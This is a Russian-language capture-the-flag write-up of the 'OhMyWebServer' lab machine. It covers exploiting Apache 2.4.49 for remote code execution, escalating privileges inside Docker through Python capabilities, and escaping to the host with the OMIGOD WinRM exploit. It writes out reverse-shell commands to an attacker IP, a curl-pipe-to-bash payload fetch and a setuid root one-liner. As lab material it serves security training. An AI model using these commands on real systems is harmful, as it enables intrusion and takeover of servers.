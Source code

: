 # OhMyWebServer WriteUp (Medium)✅

Перейдя по ip адресу мы попадаем на страницу какого-то сайта, связаного с консалтинговыми услугами

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Просканировав порты, мы модем узнать что на 80 порте находится **Apache-HTTP сервер**, при чем версия Apache - **2.4.49**

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Зайдя на сайт exploit-db.com и прогуглив данную версию ПО Apache, мы можем найти эксплойт, с помощью которого сможем удаленно выполнять код

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Скачиваем данный экспойт и тестируем его работу

<figure><img src="../.gitbook/assets/image (26) (1).png" alt=""><figcaption><p>Перед использованием скрипта я создал текстовый файл <strong>ip.txt</strong>, куда вписал ip адрес машины 📌</p></figcaption></figure>

Если мы можем с помощью данного эксплойта выполнять какие-либо команды, то, следовательно, вместо команды ls можно вписать bash\_reverse\_shell и получить оболочку нашей машины

Подключив слушатель заранее, выполняем команду

`./50383.sh ip.txt /bin/sh 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1"'`

и получаем шелл от лица пользователя **daemon**

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4) (4).png" alt=""><figcaption><p>Судя по странному набору букв и цифр после имени пользователя, мы находимся в докере 📌</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>linpeas это подтвердил 📌</p></figcaption></figure>

Первый флаг, вероятнее всего, находится в папке root, но мы не имеем прав, чтобы в неё перейти, поэтому придётся выполнять эскалацию привилегий и получать **root**'a

C помощью linpeas'a мы узнаём, что можем проэксплуатировать **python capabilities**, с помощью команды `python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'` получаем **root**'a в докере&#x20;

<figure><img src="../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Остаётся лишь вывести содержимое файла user.txt и получить первый флаг🚩

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Ничего, кроме внутреннего ip-адреса linpeas не нашёл, поэтому загружаем сканер nmap и сканируем порты (сканировать мы будем ip 172.12.0.1, т.к. 0.2 - это наш адрес, а предыдущий - хоста)

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Видим открытый 5986-й порт, который относится к **Windows Remote Management**

Данный сервис имеет уязвимость, которую мы можем проэксплуатировать с помощью **omigod**-экспойта

Загружаем его в папку /tmp

Перед эксплуатацией уязвимости создадим на собственной машине в папке /tmp файл shell.sh, где будет храниться bash\_rev\_shell(`bash -i >& dev/tcp/self_ip/6666 0>&1`)

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

В той же папке /tmp подключаем **python3**-сервер (port - **3333**)

Запускаем слушатель `nc -lvnp`` `**`6666`** на своей машине

На атакуемой машине в папке /tmp выполняем команду

&#x20;`python3 name_of_exploit -t 172.17.0.1 -c "curl self_ip:3333/`[`shell.sh`](https://vk.com/away.php?to=http%3A%2F%2Fshell.sh\&cc\_key=) `| bash"`

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Как итог, мы выбрались из докера и получили шелл основного сервера атакуемой машины, остаётся лишь вывести флаг **root.txt**

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
